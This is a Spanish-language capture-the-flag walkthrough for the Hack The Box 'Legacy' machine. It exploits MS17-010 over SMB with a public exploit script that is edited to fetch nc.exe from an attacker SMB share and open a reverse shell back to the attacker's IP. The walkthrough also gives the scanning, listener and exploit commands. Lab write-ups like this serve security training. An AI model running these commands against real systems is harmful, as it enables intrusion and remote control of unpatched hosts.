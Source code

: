 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/legacy.jpg)

## Windows - Easy
IP = 10.10.10.4

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -vvv -oG allPorts 10.10.10.4
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/allPorts.jpg)

    nmap -p139,445 -sV -sC -vv -Pn -oN targeted 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/targeted.jpg)

Realizamos un escaneo de las vulnerabilidades del servicio smb

    nmap -p 445 --script "vuln and safe" -Pn -oN servicioScan 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/smbScan.jpg)

Nos muestra que el servicio es vulnerable al MS17-010


Nos descargamos el exploit de: 
https://github.com/worawit/MS17-010

Ejecutamos el checker.py para comprobar syi los named pipes responden

    python2 checker.py 10.10.10.4

Comprobamos que el spoolss y el browser son vulnerables.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/checker.jpg)


Ahora vamos a explotar la vulnerabilidad con el zzz_exploit.py pero antes tenemos que editar para que nos ejecute nuestra reverse shell.
1.- buscamos en nuestro equipo con locate nc.exe y nos lo copiamos a la ruta que vamos a compartir

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/locate.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/cp.jpg)

2.- editamos el exploit para indicarle como va a ser nuestra reverse shell.

Comentamos las lineas que ya no queremos que se ejecuten (flecha de arriba) e incluimos nuestra ejecucion (flecha de abajo)

     service_exec(conn, r'cmd /c \\10.10.14.2\smb\nc.exe -e cmd.exe 10.10.14.2 4444')

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/exploit.jpg)

3.- Ejecutamos el exploit
Para ejecutar el exploit tenemos que hacer varias cosas.
   
   3.1.- Compartimos una ruta de la cual vamos a coger el nc.exe con impacket y le indicamos que soporte smb2
                                
      impacket-smbserver smb $(pwd) -smb2support
      
   3.2.- Ponemos el puerto configuracido para la reverse shell a la escucha en nuestra maquina 
    
      nc -lvp 4444

   3.3.- Ejecutamos el zzz_exploit.py
   
    python2 zzz_exploit.py 10.10.10.4 spoolss
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/accesLegacy.jpg)

Conseguimos acceso a la maquina

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/acceso.jpg)
    
Accedemos a la carpeta del usuario y en el escritorio encontramos la flag  

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/user.jpg)
      
### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/root.jpg)
